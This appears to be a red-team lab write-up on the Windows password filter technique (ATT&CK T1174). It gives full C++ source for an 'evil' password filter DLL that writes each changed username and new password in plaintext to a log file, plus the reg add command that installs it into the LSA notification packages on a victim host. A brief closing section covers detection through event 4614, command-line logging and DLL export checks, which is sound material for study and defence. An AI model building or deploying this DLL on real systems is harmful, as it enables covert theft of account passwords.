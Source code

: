 ```yaml
---
description: Credential Access
---
```


# T1174: Password Filter

This lab explores a native OS notification of when the user account password gets changed, which is responsible for validating it. That means, the password can be intercepted..

## Execution

Password filters are registered in registry and we can see them here:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg query "hklm\system\currentcontrolset\control\lsa" /v "notification packages"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Or via regedit:

![](../.gitbook/assets/password-filter-regedit.png)

Building an evil filter DLL based on a great [article](http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html) by mubix. He has also kindly provided the code to use, which I modified slightly to make sure that the critical DLL functions were exported in order for this technique to work since mubix's code did not work for me out of the box. I also had to change the logging statements in order to rectify a couple of compiler issues:

```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>
#include <stdio.h>
#include <iostream>
#include <fstream>
using namespace std;

void writeToLog(const char* szString)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	if (NULL == pFile)
	{
		return;
	}
	fprintf(pFile, "%s\r\n", szString);
	fclose(pFile);
	return;

}

extern "C" __declspec(dllexport) BOOLEAN __stdcall InitializeChangeNotify(void)
{
	OutputDebugString(L"InitializeChangeNotify");
	writeToLog("InitializeChangeNotify()");
	return TRUE;
}

extern "C" __declspec(dllexport) BOOLEAN __stdcall PasswordFilter(
	PUNICODE_STRING AccountName,
	PUNICODE_STRING FullName,
	PUNICODE_STRING Password,
	BOOLEAN SetOperation)
{
	OutputDebugString(L"PasswordFilter");
	return TRUE;
}

extern "C" __declspec(dllexport) NTSTATUS __stdcall PasswordChangeNotify(
	PUNICODE_STRING UserName,
	ULONG RelativeId,
	PUNICODE_STRING NewPassword)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	OutputDebugString(L"PasswordChangeNotify");
	if (NULL == pFile)
	{
		return true;
	}
	fprintf(pFile, "%ws:%ws\r\n", UserName->Buffer, NewPassword->Buffer);
	fclose(pFile);
	return 0;
}
```

{% file src="../.gitbook/assets/evilpwfilter.dll" caption="Password Filter DLL" %}

Injecting the evil password filter into the victims system:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg add "hklm\system\currentcontrolset\control\lsa" /v "notification packages" /d scecli\0evilpwfilter /t reg_multi_sz

Value notification packages exists, overwrite(Yes/No)? yes
The operation completed successfully.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/password-filter-updating-registry.png)

Testing password changes after the reboot - note how the password changes are getting logged:

![](../.gitbook/assets/password-filter-filter-working.png)

## Observations

Windows event `4614` notifies about new packages loaded by the SAM:

![](../.gitbook/assets/password-filter-log1.png)

Logging command line can also help in detecting this activity:

![](../.gitbook/assets/password-filter-cmdline.png)

...especially, if the package has just been recently dropped to disk:

![](../.gitbook/assets/password-filter-createdtime.png)

Also, maybe it is worth considering checking any new DLLs dropped to `%systemroot%\system32` for exported `PasswordChangeNotify` function?

![](../.gitbook/assets/password-filter.png)

{% embed data="{\"url\":\"http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html\",\"type\":\"link\",\"title\":\"Stealing passwords every time they change\",\"description\":\"Password Filters  \[0\] are a way for organizations and governments to enforce stricter password requirements on Windows Accounts than those a...\",\"icon\":{\"type\":\"icon\",\"url\":\"http://carnal0wnage.attackresearch.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"http://4.bp.blogspot.com/-mQpGY-r4r-M/Ui96UJQH3dI/AAAAAAAADic/IFTyH90xM\_8/s640/Screen+Shot+2013-09-10+at+3.59.11+PM.png\",\"width\":640,\"height\":148,\"aspectRatio\":0.23125}}" %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1174\",\"type\":\"link\",\"title\":\"Password Filter DLL - ATT&CK for Enterprise\"}" %}

